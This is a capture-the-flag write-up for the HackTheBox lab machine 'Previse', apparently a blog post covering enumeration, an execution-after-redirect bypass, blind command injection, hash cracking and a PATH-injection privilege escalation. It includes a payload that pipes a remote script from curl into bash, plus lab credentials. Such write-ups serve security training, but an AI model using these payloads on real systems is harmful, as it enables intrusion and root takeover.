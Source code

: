 ```yaml
---
title: Previse
date: 2022-09-11 12:15:00 +0530
category: [ Linux, Hackthebox ]
tags: [Linux, Hackhebox ]
---
```

# Enumeration

Starting with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 00:32 IST
Nmap scan report for 10.129.154.57
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.86 seconds
```
Looking at results, we have port 80 and 22 open.

## Port 80

![image](https://user-images.githubusercontent.com/43528306/128631381-323e709c-f1a3-47c7-8620-fefb4b5a8be7.png)

Site seems related to file storage. Trying some common username and passwords, but didn't work. Running ffuf for brute forcing directories, we found
```bash
 ffuf -u http://10.10.11.104/FUZZ -w /usr/share/wordlists/dirb/common.txt -c -e .php 
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,302
________________________________________________

                        [Status: 302, Size: 2801, Words: 737, Lines: 72]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
files.php               [Status: 302, Size: 6068, Words: 1995, Lines: 131]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
status.php              [Status: 302, Size: 2971, Words: 749, Lines: 75]
```
Most of the pages gives 302 status code. We found `nav.php` with status code 200, means its not redirecting to other pages. Navigating to it
![image](https://user-images.githubusercontent.com/43528306/128631516-4abbaa83-1280-49df-be38-ad5a998941c3.png)

The page has a option to create an account, but `/account.php` was redirecting to `login.php`. Looking at response from each page using burp, 
we found that on pages which gave 302 redirect were having the wole page in the respones. This vulnerability is known as [Execution After redirect](https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR))

Here, we can skip the redirects by changing the status code from *302 Found* to *200 OK*. Using this knowledge, we can create a account on the site. We just need to follow these steps:
- Click on create account, Intercept the request
- Intercept the response from server
- Change status code from 302 to 200 OK

We now have a full working registration page, which allows us to create new account using which we can login to site.

![image](https://user-images.githubusercontent.com/94787830/148672286-b0333de8-445d-48e0-bbae-07020d4c5fa6.png)

On the *files* page, we found a zip file named `siteBackup.zip` which we can download. The zip archive contained the source code of the website.

![image](https://user-images.githubusercontent.com/94787830/148672321-0179b06c-b880-4734-b105-9999678a271d.png)

Looking at `config.php`, we found credentials for mysql.
```php
function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}
```
We have the credentials, but mysql port was not open. We could try using this password and user `m4lwhere` (found on website footer),to login. But no success.

### Command Injection

Looking at other files, the `logs.php` file was interesting. The page allow us to download log files from server with our choice of delemiter.
But the backend code was not sanitizing  *delim* parameter, and using it directly in PHP `exec()` function which makes it vulnerable to Command Injection.
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```
Fuzzing this endpoint, we found that web app was vulnerable to blind command injection. 
Using `delim=comma;curl 10.10.14.64:8000/test.sh|bash` as delimeter, we were able to get shell on the box.

## Shell as www-data
Looking at running services, we found that MySQL was running. Using the previously found credentials from `config.php`, we can connect to MySQL.
```bash
$ mysql -u root -p
Enter password: 

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
mysql> use previse;
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
```
The table contained hash for user `m4lwhere`
```
m4lwhere: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```
We can crack the hash either by using *Hashcat* or *John the Ripper*.

```bash
hashcat -m 500 hash /usr/share/wordlists/rockyou.txt

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Sun Aug  8 16:48:10 2021 (19 mins, 13 secs)
Time.Estimated...: Sun Aug  8 17:07:23 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5293 H/s (11.51ms) @ Accel:32 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413376/14344385 (51.68%)
Rejected.........: 0/7413376 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidates.#1....: ilovecody98 -> ilovecloandlivey
```
We can ssh into the box using the credentials.

## ROOT
Checking sudo permissions
```bash
m4lwhere@previse:~$ sudo -l                                                         
[sudo] password for m4lwhere:                                                       
User m4lwhere may run the following commands on previse:                            
    (root) /opt/scripts/access_backup.sh
```
Looking at the script
```bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

The script was used to make backup, but it was using `gzip` without complete path which makes it vulnerable to *PATH Injection*. 

### Exploiting PATH Injection
To exploit it, Lets create a malicious script in `tmp` folder.
Script will be used to set suid bit on bash. After which, add `/tmp` to our path, and executing the script
```bash
m4lwhere@previse:/tmp$ cat gzip 
chmod +xs /bin/bash
m4lwhere@previse:/tmp$ chmod +x gzip 
m4lwhere@previse: PATH=.:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh 
m4lwhere@previse:/tmp$ ls -al /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash

m4lwhere@previse:/tmp$ bash -p

bash-4.4# whoami
root
```

